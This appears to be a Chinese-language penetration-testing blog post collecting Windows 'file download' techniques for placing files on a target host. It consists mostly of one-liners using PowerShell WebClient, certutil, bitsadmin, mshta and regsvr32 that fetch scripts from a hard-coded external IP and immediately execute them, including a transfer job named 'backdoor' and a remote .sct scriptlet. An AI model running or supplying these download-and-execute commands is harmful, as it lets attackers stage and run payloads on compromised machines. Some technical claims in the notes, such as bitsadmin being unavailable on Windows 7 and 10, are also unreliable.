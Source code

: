 ```yaml
---
layout: post
title: 文件下载-Windows篇(长期更新)
---
```


> *文章长期更新，此文收集总结了Windows下 下载文件的各种姿势，对目标表进行文件的落地（或无落地）*
>
> 

### 0x01 PoweShell

win2003，winXP不支持

踩坑：

- Powershell 版本大于2.0时 在连接Powershell命令时 **空格** 替换了 `;`
- Powershell 版本低于或等于2.0时 `DownloadFile()`函数不支持自定义路径 文件默认保存在`C:\Users\当前用户名` 下![image-20200403122054016](https://tva1.sinaimg.cn/large/00831rSTly1gdggmdhh09j311w0ecdit.jpg)![image-20200403121710725](https://tva1.sinaimg.cn/large/00831rSTly1gdggiiv0ndj30mo0f040i.jpg)

powershell (new-object System.Net.WebClient).DownloadFile('http://47.92.194.173/test.txt', 'test.bat');start-process 'test.bat'

powershell (new-object System.Net.WebClient).DownloadFile('http://47.92.194.173/test.txt', 'c:\1.bat');start-process 'c:\1.bat'


```powershell
$client = new-object System.Net.WebClient;$client.DownloadFile('https://avatars0.githubusercontent.com/u/19944759?s=150&v=4', 'C:\1.jpg')
```



### 0x02 Certutil

path

- C:\Windows\System32\certutil.exe
- C:\Windows\SysWOW64\certutil.exe

```cmd
certutil -urlcache -split -f http://47.92.194.173/test.txt&ren test.txt test.bat&test.bat
certutil -urlcache -split -f http://47.92.194.173/test.txt c:\a.bat&c:\a.bat
```

有的时候certutil不支持指定下载的目录，为了兼容直接在当前目录操作



### 0x03 bitsadmin

在Windows

>BITSAdmin is deprecated and is not guaranteed to be available in future versions
> of Windows.
>
>BITSAdmin已弃用，并且不能保证在将来的Windows版本中可用。
>
>Administrative tools for the BITS service are now provided by BITS PowerShell cm
>dlets.
>
>BITS PowerShell cmdlet现在提供了BITS服务的管理工具

Path:

- C:\Windows\System32\bitsadmin.exe
- C:\Windows\SysWOW64\bitsadmin.exe



```cmd
bitsadmin /transfer n http://github.com/3gstudent/test/raw/master/putty.exe c:\a.exe && c:\a.exe
```

bitsadmin /create 1 bitsadmin /addfile 1 http://47.92.194.173/test.txt c:\autoruns.bat bitsadmin /RESUME 1 bitsadmin /complete 1

- ```cmd
  bitsadmin /create 1 bitsadmin /addfile 1 http://47.92.194.173/test.txt C:\Program Files (x86)\1.bat bitsadmin /RESUME 1 bitsadmin /complete 1
  ```

bitsadmin /rawreturn /transfer getfile http://47.92.194.173/test.txt C:\Program Files\1.bat



bitsadmin /transfer myDownLoadJob /download /priority normal "http://47.92.194.173/test.txt" "C:\Program Files (x86)\1.bat"

```cmd
bitsadmin /transfer backdoor http://47.92.194.173/test.txt C:\Program Files\1.bat
```



DISPLAY: '任务名' TYPE: DOWNLOAD STATE: TRANSFERRED PRIORITY: NORMAL FILES: 1 / 1 BYTES: 11392 / 11392 (100%) Transfer complete

默认情况下bitsadmin下载速度极慢，下载较大文件需要设置优先级提速，以下是用法示例：

\#下载filezilla FTP客户端，任务名是333 start bitsadmin /transfer 333 http://dwz.cn/fffftp c:\333.exe #设置任务333为最高优先级 bitsadmin /setpriority 333 foreground

bitsadmin 可以在网络不稳定的状态下下载文件，出错会自动重试，可靠性应该相当不错。
bitsadmin 可以跟随URL跳转.
bitsadmin 不像CURL WGET 这类工具那样能用来下载HTML页面。

bitsadmin 权限问题待解决

bitsadmin已经在win7 win10 win2008 不可用



### 0x03 mshta

mshta http://47.92.194.173/hack.hta 支持短网址

http://suo.im/5VA0Ut





regsvr32 /u /s /i:http://47.92.194.173/test1.sct scrobj.dll